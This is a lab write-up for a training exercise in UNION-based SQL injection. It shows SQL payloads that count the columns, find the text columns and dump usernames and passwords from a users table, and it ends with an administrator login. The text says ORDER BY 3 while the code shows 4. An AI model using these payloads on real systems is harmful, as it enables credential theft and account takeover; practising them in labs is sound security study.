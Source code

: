 ## Lab Description :

![image](https://user-images.githubusercontent.com/67383098/234058543-7b45e24b-1e6a-4a3e-b65e-03687d4c983b.png)

## Solution :

> The database contains a different table called **users**, with columns called username and password.

#### Determine number of columns

**ORDER BY 3** shows an error , it means the web application retreives 2 columns in the query

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 4 --
```

![image](https://user-images.githubusercontent.com/67383098/234059573-93d0b8a0-ff4b-4e97-b31f-1403e5f81e2c.png)

#### Determine which column contains text data

*1st columns returns text data*

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'A',NULL --
```

![image](https://user-images.githubusercontent.com/67383098/234060309-9038d2e6-2d7d-47c4-a380-36eadbeec012.png)

*2nd column also retreives text data*

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,'A' --
```

![image](https://user-images.githubusercontent.com/67383098/234060453-c86da807-fc07-45d0-bc78-e290bebecaba.png)

Since both the columns contain text data, we can retreive username and password from the users table of the database without any concatination method.


```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT username,password FROM users --
```
![image](https://user-images.githubusercontent.com/67383098/234061618-7df6319c-199d-48f5-bf98-234684bff6e6.png)

![image](https://user-images.githubusercontent.com/67383098/234061661-b0778724-17d3-4786-b67a-ad53930b2a46.png)

![image](https://user-images.githubusercontent.com/67383098/234061490-8a148bb3-9d40-4051-b378-6fdf807161e0.png)

Thus we got all the usernames & password stored in the database.

Now we can login as administrator !

![image](https://user-images.githubusercontent.com/67383098/234062933-c91f5ab3-85aa-4593-b337-0b49f47d6cec.png)






